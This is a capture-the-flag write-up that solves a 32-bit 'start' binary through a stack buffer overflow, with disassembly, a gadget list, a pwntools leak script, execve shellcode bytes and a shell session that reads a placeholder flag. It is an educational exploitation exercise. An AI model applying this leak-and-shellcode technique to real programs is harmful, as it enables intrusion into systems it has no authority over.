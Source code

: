 ```yaml
---
title: "Start"
date: 2023-01-27T19:46:10-08:00
draft: false
---
```


Alright so my first steps were to download the binary and open it up in ghidra. Opening it up in ghidra yielded nothing because the program was a super basic opcodes. With no libraries. This made it really hard for ghidra to figure out what the functions were really doing. This meant I would have to open it up in GDB to see what was happening in the dissassembly.

I first ran the program to see what it did. All it did was send a 20-byte message:
`Let's start the CTF:`
then it gave a prompt. It seemed like anything you sent in the prompt would exit the program.

I opened the binary in GDB to find exactly that. Looking at the functions I found "\_start" was where all the magic happened. It was very crude instructions in 32-bit. It looked a little bit like this:

![Pasted image 20220113144304](https://user-images.githubusercontent.com/63262961/149428905-e619f0ad-0fd7-48ad-981c-3a42d0d86ae1.png)

I was interested in this part:

```
xor ebx,ebx
mov dl,0x3c
mov al,0x3
int 0x80
```

This essentially called `read(0, ???, 0x3c)`
The ??? was confusing, but then I read up above `mov ecx,esp` which meant that ecx was representing the stack, so it would be `read(0, stack, 0x3c)`
This meant there was an easy buffer overflow, but not as easy as I originally imagined. Essentially the stack looked like this:

```
0xffffbf04 ◂— 0x2774654c ("Let'")
0xffffbf08 ◂— 0x74732073 ('s st')
0xffffbf0c ◂— 0x20747261 ('art ')
0xffffbf10 ◂— 0x20656874 ('the ')
0xffffbf14 ◂— 0x3a465443 ('CTF:')
0xffffbf18 —▸ 0x804809d (_exit)
```

So when the program ran it would overwrite the stack with your input up to `0x3c` bytes. So if you typed `blah` the stack would look like:

```
0xffffbf04 ◂— 0x68616c62 ("blah")
0xffffbf08 ◂— 0x74732073 ('s st')
0xffffbf0c ◂— 0x20747261 ('art ')
0xffffbf10 ◂— 0x20656874 ('the ')
0xffffbf14 ◂— 0x3a465443 ('CTF:')
0xffffbf18 —▸ 0x804809d (_exit)
```

This means that you would have to type 20 characters before you hit the return address.
`0x3c` = 60 so you have 60-20 = 40 bytes of buffer overflow. Thats a good amount. I ended up looking at the ROPgadgets to see what I could do to change the control flow of the program:
`$ ROPgadget --binary ./start`

```
0x0804809b : adc al, 0xc3 ; pop esp ; xor eax, eax ; inc eax ; int 0x80
0x0804808e : add al, 0xcd ; xor byte ptr [ecx], 0xdb ; mov dl, 0x3c ; mov al, 3 ; int 0x80
0x08048099 : add esp, 0x14 ; ret
0x08048086 : daa ; mov ecx, esp ; mov dl, 0x14 ; mov bl, 1 ; mov al, 4 ; int 0x80 0x080480a0 : inc eax ; int 0x80
0x0804808f : int 0x80
0x0804809a : les edx, ptr [ebx + eax*8] ; pop esp ; xor eax, eax ; inc eax ; int 0x80
0x08048095 : mov al, 3 ; int 0x80
0x0804808d : mov al, 4 ; int 0x80
0x0804808b : mov bl, 1 ; mov al, 4 ; int 0x80
0x08048089 : mov dl, 0x14 ; mov bl, 1 ; mov al, 4 ; int 0x80
0x08048093 : mov dl, 0x3c ; mov al, 3 ; int 0x80
0x08048087 : mov ecx, esp ; mov dl, 0x14 ; mov bl, 1 ; mov al, 4 ; int 0x80
0x0804809d : pop esp ; xor eax, eax ; inc eax ; int 0x80
0x0804809c : ret
0x08048090 : xor byte ptr [ecx], 0xdb ; mov dl, 0x3c ; mov al, 3 ; int 0x80
0x0804809e : xor eax, eax ; inc eax ; int 0x80
0x08048091 : xor ebx, ebx ; mov dl, 0x3c ; mov al, 3 ; int 0x80
```

Seeing this I realized my options were limited, but I decided to start trying things out. The first gadget I tried was: `0x080480a0 : inc eax ; int 0x80` since I knew it would change the function that gets called. What I got was `0x18 + 1` for my eax value which corresponded to the `stime` syscall. After trying different inputs I found that eax was being saved from the `read` function which would return the size of the input. Which was `0x18`. When I increased the size of the input, I could get different syscall codes untill I reached `0x3c`(the max read size). Looking at my options for possible syscalls led to nothing. So that idea was scrapped.

The next idea I had was to use shellcode in my input to run some code (maybe pop a shell). Looking at `vmmap` I realized that might be possible since the stack was executable. The addresses of the stack were randomized though, so I had to find a way to leak the stack. Looking at the ROPgadgets I saw this function:
`0x08048087 : mov ecx, esp ; mov dl, 0x14 ; mov bl, 1 ; mov al, 4 ; int 0x80`
Essentially this would print out 20 bytes from the stack. since we had already moved the stack pointer past the string that it gives, it would run: `write(1, stack, 0x14)` this is what my program looked like:

```python
#! /usr/bin/env python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
addr_ecx2 = 0x08048087
p = process("./start")
gdb.attach(p, 'b _start')
p.recv()
payload = b"A"*(0x14)
payload += p32(addr_ecx2)
p.send(payload)
x = p.recv()
print(hex(u32(x[0:4])))
print(hex(u32(x[4:8])))
print(hex(u32(x[8:12])))
p.interactive()
```

I was able to leak 3 addresses with one of them in the same page as the stack:(`x[0:4]`)
This was some really good news. It meant I could run shellcode directly. So I created a new program that would send Shellcode in my input and then send the program to that spot in the stack. This would be the control flow:
`_start` -> enter `"A"*0x14 + 0x08048087` -> `_start+39` = `0x08048087` -> read stack address -> enter `shellcode + stack address` -> `stack address`
The program I wrote did exactly that. My shellcode looked like this:
`"j\x0bXhn/shh//bi1\xc9\x99T[\xcd\x80"`
And it didn't work.

Why? The shellcode I thought was too long. I thought the shellcode was somehow breaking after like 10 characters. I spent an insane amount of time trying to get the shellcode to be small enough to fit into the space.
Then I looked really hard at what was happening. The instructions from my shellcode looked like this:

```
push $SYS_execve
pop %eax
push $0
push $0x68732f6e
push $0x69622f2f
xor %ecx, %ecx
cltd
push %esp
pop %ebx
int $0x80
```

I noticed that when the program got to `push $0x69622f2f` it would overwrite the rest of the shellcode. OF COURSE!!! The shellcode was on the stack and pushing values onto the stack would overwrite those values.

All I had to do to solve it was place the shellcode at the end of my input so it would overwrite useless parts of the stack and boom! it worked:

```
$ ls
bin boot dev etc home lib lib32 lib64 libx32 media mnt opt proc root run sbin srv sys tmp usr var
$ cd home
$ cd start
$ ls
flag
run.sh
start
$ cat flag
FLAG{EXAMPLE_FLAG}
```

The final expoit script is in this repo.
